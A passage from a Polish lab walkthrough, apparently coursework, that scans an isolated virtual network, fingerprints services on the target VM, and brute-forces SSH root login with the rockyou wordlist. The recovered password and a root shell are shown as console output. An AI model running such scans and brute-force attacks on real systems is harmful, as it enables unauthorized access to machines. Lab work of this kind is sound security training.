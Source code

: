 # Przewodnik rozwiązania zadań

## Podstawowa konfiguracja
- maszyna wirtualna z systemem kali
- maszyna wirtualna SDA\
Sieć izolowana typu host-only 

## Ustalić własny adres IP wraz z maską podsieci

**Skrypt**: [network_info_final.py](network_info_final.py) wywołany bez argumentów.

```console
kali@kali:~$ python network_info_final.py
Interfejs: eth0
IP: 192.168.56.100
Maska sieci: 255.255.255.0
---------------------------
```

**Opis działania**: Skrypt robi pętlę po wykrytych w systemie interfejsach i zwraca adres IP przypisany do aktualnie iterowanego interfejsu.\
### Rozwiązanie: IP: <span style="color: green">192.168.56.100</span>, maska: <span style="color: green">255.255.255.0</span>
___
## Na podstawie powyższych informacji przeskanować sieć i ustalić adres IP celu, otwarte porty oraz ustalić nazwy oprogramowania na tych portach wraz z ich numerami wersji..
**Skrypt**: [port_scanner_final.py](port_scanner_final.py) wywołany bez argumentów.

```console
kali@kali:~$ python port_scanner_final.py
########################################
# Skanuję sieć w poszukiwaniu hostów.  #
# Interfejs: eth0                      #
# Ip: 192.168.56.100                   #
# Pomijam siebie!                      #
########################################
---------------------
IP: 192.168.56.1
Nazwa hosta: 
Status: up
Protokoły ┐
          └ TCP ┐
                ┌ Port: 22, status: open
                └ OpenSSH 8.9p1 Ubuntu 3 Ubuntu Linux; protocol 2.0
                ┌ Port: 80, status: open
                └ Apache httpd 2.4.52 (Ubuntu)
                ┌ Port: 139, status: open
                └ Samba smbd 4.6.2 
                ┌ Port: 445, status: open
                └ Samba smbd 4.6.2 
                ┌ Port: 631, status: open
                └ CUPS 2.4 
                ┌ Port: 3306, status: open
                └ MySQL  unauthorized
---------------------
IP: 192.168.56.106
Nazwa hosta: 
Status: up
Protokoły ┐
          └ TCP ┐
                ┌ Port: 21, status: open
                └ vsftpd 3.0.5 
                ┌ Port: 22, status: open
                └ OpenSSH 8.9p1 Ubuntu 3 Ubuntu Linux; protocol 2.0
                ┌ Port: 80, status: open
                └ Apache httpd 2.4.52 (Ubuntu)

```
**Opis działania**: Skrypt korzysta z poprzednio opisanego skrytpu. Na podstawie otrzymanej listy interfejsów do robi pętlę po nich i wykonuje skanowanie hostów zgodnie z maską sieciewią. Domyślnie skrypt nie wyświetla wyników skanowania portów na własnym IP.\
**Uwaga!** Jeżeli wirtualne maszyny są ustawione w trybie sieci: host-only, nie jest zwracana nazwa hosta! W trybie bridged - nazwy hostów są rozwiązywane poprawnie.
### Rozwiązanie: Adres IP celu: <span style="color: green">192.168.56.106</span>, otwarte porty:
- #### 21 - vsftpd 3.0.5 
- #### 22 - OpenSSH 8.9p1
- #### 80 - Apache httpd 2.4.52
___

## Atak brute-force na dowolną usługę

### SSH brute-force
W pierwszej kolejności przeprowadzono atak na port 22 i usługę SSH. Założono, że na atakowanej maszynie istnieje użytkownik 'root'. Słownik możliwych haseł: rockyou.txt\
**Skrypt**: [brute_force_ssh_final.py](brute_force_ssh_final.py) wywołany z argumentami:
- --host 192.168.100.56.106
- --user root
- --password /usr/share/wordlists/rockyou.txt
```console
kali@kali:~$ python brute_force_ssh_final.py --host 192.168.56.106 --user root --password /usr/share/wordlists/rockyou.txt
[!] Błędne dane logowania root:12345
[*] Przekroczono limit połączeń, ponawiam próbę root:123456789 z opóźnieniem...
[*] Przekroczono limit połączeń, ponawiam próbę root:123456789 z opóźnieniem...
[!] Błędne dane logowania root:123456789
[!] Błędne dane logowania root:password
................
[*] Przekroczono limit połączeń, ponawiam próbę root:666 z opóźnieniem...
[*] Przekroczono limit połączeń, ponawiam próbę root:666 z opóźnieniem...
[+] Określono dane dostępowe:
        Host: 192.168.56.106
        Użytkownik: root
        Hasło: 666

```
W wyniku działania skryptu zdobyto następujące poświadczenia:\
- użytkownik: **root**
- hasło: **666**

Potwierdzenie poprawności danych uzyskano poprzez próbę bezpośredniego połączenia z atakowaną maszyną:
```console
kali@kali:~$ ssh root@192.168.56.106                        
The authenticity of host '192.168.56.106 (192.168.56.106)' can't be established.
ED25519 key fingerprint is SHA256:Oh4jSTvEH3MOWXJ6sWf6a1CebgOAgf5dvE9hDmmM8CU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.106' (ED25519) to the list of known hosts.
root@192.168.56.106's password: 
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-47-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 15 08:46:52 AM UTC 2022

  System load:  0.0               Processes:               136
  Usage of /:   38.2% of 9.75GB   Users logged in:         0
  Memory usage: 7%                IPv4 address for enp0s3: 192.168.56.106
  Swap usage:   0%


46 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


Last login: Fri Sep  9 06:12:02 2022 from 192.168.100.54
root@vm-sda:~# 

```
Na tym etapie porzucono eksploarację przejętej maszyny, celem podjęcia kolejnych prób brute-force.

### FTP Brute-force